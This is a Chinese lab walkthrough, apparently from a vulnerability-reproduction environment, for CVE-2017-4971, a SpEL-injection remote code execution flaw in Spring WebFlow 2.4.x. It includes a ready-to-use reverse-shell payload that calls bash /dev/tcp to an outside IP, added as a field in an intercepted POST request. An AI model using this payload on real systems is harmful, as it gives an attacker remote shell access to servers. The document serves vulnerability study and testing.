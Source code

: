 # Spring WebFlow 远程代码执行漏洞（CVE-2017-4971）

Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 2.4.x 版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行。

参考链接：

- https://threathunter.org/topic/593d562353ab369c55425a90
- https://pivotal.io/security/cve-2017-4971

## 测试环境

运行测试环境：

```
docker compose up -d
```

等待环境启动后，访问`http://your-ip:8080`，将看到一个酒店预订的页面，这是spring-webflow官方给的简单示例。

## 漏洞复现

首先访问`http://your-ip:8080/login`，用页面左边给出的任意一个账号/密码登录系统：

![](1.png)

然后访问id为1的酒店`http://your-ip:8080/hotels/1`，点击预订按钮"Book Hotel"，填写相关信息后点击"Process"（从这一步，其实WebFlow就正式开始了）：

![](2.png)

再点击确认"Confirm"：

![](3.png)

此时抓包，抓到一个POST数据包，我们向其中添加一个字段（也就是反弹shell的POC）：

```
_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/10.0.0.1/21 0>&1")).start()=vulhub
```

![](4.png)

（注意：别忘记URL编码）

成功执行，获得shell：

![](5.png)

